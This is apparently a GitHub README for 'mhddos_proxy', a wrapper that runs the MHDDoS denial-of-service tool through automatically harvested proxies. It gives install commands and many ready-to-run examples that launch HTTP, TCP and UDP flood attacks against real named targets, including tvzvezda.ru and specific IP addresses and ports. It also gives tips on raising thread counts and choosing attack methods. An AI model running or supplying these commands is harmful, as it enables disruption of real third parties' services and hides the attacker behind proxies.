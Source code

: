 ## Intro

Wrapper script for running [MHDDoS](https://github.com/MHProDev/MHDDoS)

- **No VPN required** - automatically downloads and selects working proxies for given targets
- Support for **multiple targets** with automatic load-balancing
- Uses multiple attack methods and switches between them
- Simpler interface with named arguments

## Setup

### Python

```bash
git clone https://github.com/botsarefuture/mhddos_proxy.git && cd mhddos_proxy && git clone https://github.com/MHProDev/MHDDoS.git && python3 -m pip install -r MHDDoS/requirements.txt --b && bash launch.sh
```
```

### Docker

Install and run Docker

- Windows: https://docs.docker.com/desktop/windows/install/
- Mac: https://docs.docker.com/desktop/mac/install/
- Ubuntu: https://docs.docker.com/engine/install/ubuntu/

```bash
docker pull portholeascend/mhddos_proxy:latest
```

## Running

### Docker

```bash
docker run -it --rm portholeascend/mhddos_proxy:latest COMMAND
```

### Python

```bash
python3 runner.py COMMAND
```

## Usage

```bash
usage: runner.py target [target ...]
                 [-t THREADS] 
                 [-p PERIOD]
                 [--proxy-timeout TIMEOUT]
                 [--rpc RPC] 
                 [--udp-threads UDP_THREADS]
                 [--debug]
                 [--http-methods METHOD [METHOD ...]]

positional arguments:
  targets                List of targets, separated by space

optional arguments:
  -h, --help             show this help message and exit
  -t, --threads 1000     Total number of threads (default is 100 * CPU Cores)
  -p, --period 300       How often to update the proxies (default is 300)
  --proxy-timeout 2      How many seconds to wait for the proxy to make a connection.
                         Higher values give more proxies, but with lower speed/quality.
                         Parsing also takes more time (default is 2)

  --debug                Enable debug output from MHDDoS
  --rpc 50               How many requests to send on a single proxy connection (default is 50)
  --udp-threads 1        Threads to run per UDP target (default is 1)

  --http-methods GET     List of HTTP(s) attack methods to use.
                         (default is GET, STRESS, BOT, DOWNLOADER)
                         Refer to MHDDoS docs for available options
                         (https://github.com/MHProDev/MHDDoS)
```

# Examples

For HTTP(S) targets, attack method is randomly selected from `--http-methods` option (see above for the default).

For TCP targets, attack method is TCP FLOOD

For UDP targets, attack method is UDP FLOOD.   

**VPN IS REQUIRED FOR UDP**, proxying is not supported.  
Separate parameter `--udp-threads` controls the load, the default is 1, **INCREASE SLOWLY**, be careful

```bash
python3 runner.py https://tvzvezda.ru 5.188.56.124:9000 tcp://194.54.14.131:4477 udp://217.175.155.100:53

docker run -it --rm portholeascend/mhddos_proxy https://tvzvezda.ru 5.188.56.124:9000 tcp://194.54.14.131:4477 udp://217.175.155.100:53
```

Target specification

- HTTP(S) by URL - `https://tvzvezda.ru` or `http://tvzvezda.ru`
- HTTP by IP:PORT - `5.188.56.124:9000`
- TCP by IP:PORT - `tcp://194.54.14.131:4477`
- UDP by IP:PORT - `udp://217.175.155.100:53` - **REQUIRES VPN**

Increase load

```bash
python3 runner.py -t 1000 https://tvzvezda.ru
```

View DEBUG info (traffic)

```bash
python3 runner.py https://tvzvezda.ru --debug
```

Change proxy update interval

```bash
python3 runner.py -p 600 https://tvzvezda.ru
```

Get more proxies (possibly lower quality)

```bash
python3 runner.py --proxy-timeout 5 https://tvzvezda.ru
```

Specific HTTP(S) attack method(s)

```bash
python3 runner.py https://tvzvezda.ru --http-methods CFB CFBUAM
```
